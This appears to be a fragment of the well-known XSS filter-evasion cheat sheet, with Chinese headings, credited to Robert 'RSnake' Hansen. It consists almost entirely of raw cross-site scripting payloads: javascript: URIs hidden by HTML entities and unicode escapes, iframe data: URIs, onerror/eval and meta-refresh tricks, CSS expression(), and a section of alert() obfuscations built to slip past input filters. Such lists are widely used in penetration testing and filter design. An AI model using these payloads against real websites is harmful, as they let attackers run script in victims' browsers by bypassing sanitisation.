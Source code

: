 <svg><script xlink:href=data&colon;,window.open('https://www.google.com/')></script

<meta http-equiv="refresh" content="0;url=javascript:confirm(1)">

<iframe src=javascript&colon;alert&lpar;document&period;location&rpar;>

<form><a href="javascript:\u0061lert(1)">X

</script><img/*%00/src="worksinchrome&colon;prompt(1)"/%00*/onerror='eval(src)'>

<style>//*{x:expression(alert(/xss/))}//<style></style> 

On Mouse Over​

<img src="/" =_=" title="onerror='prompt(1)'">

<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaa aaaaaaaaaa href=j&#97v&#97script:&#97lert(1)>ClickMe

<script x> alert(1) </script 1=2

<form><button formaction=javascript&colon;alert(1)>CLICKME

<input/onmouseover="javaSCRIPT&colon;confirm&lpar;1&rpar;"

<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>



3.1.  Alert混淆以绕过过滤器
(alert)(1)

a=alert,a(1)

[1].find(alert)

top[“al”+”ert”](1)

top[/al/.source+/ert/.source](1)

al\u0065rt(1)

top[‘al\145rt’](1)

top[‘al\x65rt’](1)

top[8680439..toString(30)](1)

## 4.作者和主要编辑
Robert "RSnake" Hansen

## 5.贡献者
Adam Lange

Mishra Dhiraj

版权与许可
